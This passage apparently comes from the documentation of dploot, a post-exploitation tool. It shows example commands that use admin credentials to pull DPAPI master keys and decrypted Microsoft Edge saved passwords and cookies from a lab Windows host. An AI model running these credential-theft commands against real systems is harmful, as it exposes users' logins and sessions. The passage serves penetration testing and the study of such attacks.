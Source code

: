 With `mkfile`:

```text
$ dploot browser waza.local/Administrator:'Password!123'@192.168.57.5 -mkfile waza.mkf
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found MSEDGE AppData files for user Administrator
[MSEDGE LOGIN DATA]
URL:		
Username:	admin
Password:	Password!123

[MSEDGE COOKIE DATA]
Host (path):		www.bing.com (/)
Cookie Name:		ESF
Cookie Value:		1
Creation UTC:		Apr 07 2022 21:27:49
Expires UTC:		Jan 01 1601 00:00:00
Last Access UTC:	Apr 07 2022 21:29:12
```

With `pvk`:

```text
$ dploot browser waza.local/Administrator:'Password!123'@192.168.57.5 -pvk key.pvk
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found MasterKey: \\192.168.57.5\C$\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-500\927478ee-ab0e-4958-9eed-1d99f4dd851f
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\7eb68c18-1533-4448-8328-dd4e8439059a
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\dc22a574-7721-4d0e-8fbe-b1d4be93a73e
[*] Found MasterKey: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1104\34fb7a8f-13b9-45f7-9588-9be6f77513d4
[*] Found MasterKey: \\192.168.57.5\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-2004071915-2714639843-996485644-1001\bc6677c5-6403-49d1-a06b-6f03a5d13dc2
[*] Found MasterKey: \\192.168.57.5\C$\Users\scroche\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1105\ab0397f3-c1dd-4ceb-a4ee-cdb454e2a2a8
[*] Found MSEDGE AppData files for user Administrator
[MSEDGE LOGIN DATA]
URL:		
Username:	admin
Password:	Password!123

[MSEDGE COOKIE DATA]
Host (path):		www.bing.com (/)
Cookie Name:		ESF
Cookie Value:		1
Creation UTC:		Apr 07 2022 21:27:49
Expires UTC:		Jan 01 1601 00:00:00
Last Access UTC:	Apr 07 2022 21:29:12
```

#### triage
